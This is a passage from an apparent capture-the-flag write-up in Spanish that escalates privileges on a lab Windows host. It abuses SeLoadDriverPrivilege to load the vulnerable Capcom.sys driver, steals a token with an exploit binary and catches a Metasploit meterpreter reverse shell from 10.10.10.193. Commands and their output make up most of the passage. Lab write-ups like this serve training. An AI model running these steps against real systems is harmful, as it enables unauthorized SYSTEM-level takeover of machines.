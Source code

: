 Ya tenemos todo listo para abusar de este privilegio y realizar nuestra explotación. Lo primero que debemos hacer, es ejecutar el archivo `loaddriver.exe` como nos indica este [repositorio](https://github.com/TarlogicSecurity/EoPLoadDriver).

```
*Evil-WinRM* PS C:\Users\svc-print\Documents> .\loaddriver.exe System\CurrentControlSet\MyService  C:\Users\svc-print\Documents\Capcom.sys
[+] Enabling SeLoadDriverPrivilege
[+] SeLoadDriverPrivilege Enabled 
[+] Loading Driver: \Registry\User\S-1-5-21-2633719317-1471316042-3957863514-1104\System\CurrentControlSet\MyService 
NTSTATUS: 00000000, WinError: 0
```

Ahora, vamos a iniciar un [listener](https://metasploit.help.rapid7.com/docs/listeners) con Metasploit

```
┌─[root@parrot]─[/home/nicolasmira101]                                    
└──╼ #msfconsole  

       =[ metasploit v5.0.90-dev                          ]
+ -- --=[ 2019 exploits - 1099 auxiliary - 343 post       ]
+ -- --=[ 562 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost tun0
lhost => tun0
msf5 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.10.14.26:4444 
```

Procedemos a ejecutar el archivo `exploitcapcom.exe`

```
*Evil-WinRM* PS C:\Users\svc-print\Documents> .\exploitcapcom.exe
[*] Capcom.sys exploit
[*] Capcom.sys handle was obtained as 0000000000000064
[*] Shellcode was placed at 000002B6CF0B0008
[+] Shellcode was executed
[+] Token stealing was successful
[+] The SYSTEM shell was launched
[*] Press any key to exit this program
```

Revisando la consola de Metasploit, ya tenemos una sesión con meterpreter.

```
msf5 exploit(multi/handler) > [*] Sending stage (201283 bytes) to 10.10.10.193
[*] Meterpreter session 1 opened (10.10.14.26:4444 -> 10.10.10.193:52020) at 2020-06-18 00:21:01 -0500
```
